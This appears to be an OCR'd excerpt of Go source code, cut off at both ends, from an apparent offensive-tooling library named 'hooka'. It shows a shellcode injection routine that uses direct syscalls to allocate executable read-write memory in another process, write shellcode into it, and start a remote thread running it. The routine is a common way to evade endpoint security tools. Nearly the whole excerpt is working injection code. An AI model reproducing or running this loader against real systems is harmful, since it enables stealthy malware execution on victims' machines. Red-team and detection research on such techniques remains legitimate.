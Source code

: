```go

  if err != nil || r != 0 { // Handle error
    log.Fatal(err)
  }

  // Required variables
  regionSize := uintptr(len(shellcode))
  var rPtr uintptr

  fmt.Println("Calling NtAllocateVirtualMemory...")
  r1, err := hooka.Syscall(
    NtAllocateVirtualMemory,
    pHandle,
    uintptr(unsafe.Pointer(&rPtr)),
    0,
    uintptr(unsafe.Pointer(&regionSize)),
    windows.MEM_COMMIT|windows.MEM_RESERVE,
    windows.PAGE_EXECUTE_READWRITE,
  )

  if r1 != 0 { // Handle error
    log.Fatal(err)
  }

  fmt.Println("Calling NtWriteVirtualMemory...")
  var bytesWritten uint32
  r2, err := hooka.Syscall(
    NtWriteVirtualMemory,
    pHandle,
    rPtr,
    uintptr(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)),
    uintptr(unsafe.Pointer(&bytesWritten)),
  )

  if r2 != 0 { // Handle error
    log.Fatal(err)
  }

  fmt.Println("Calling NtCreateThreadEx...")
  var tHandle uintptr
  _, err = hooka.Syscall(
    NtCreateThreadEx,
    uintptr(unsafe.Pointer(&tHandle)),
    windows.STANDARD_RIGHTS_ALL|windows.SPECIFIC_RIGHTS_ALL,
    0,
    pHandle,
    rPtr,
    0,
    uintptr(0),
    0,
    0,
    0,
    0,
  )

  if err != nil { // Handle error
    log.Fatal(err)
  }

  fmt.Println("Calling NtClose...")
  hooka.Syscall(
    NtClose,
```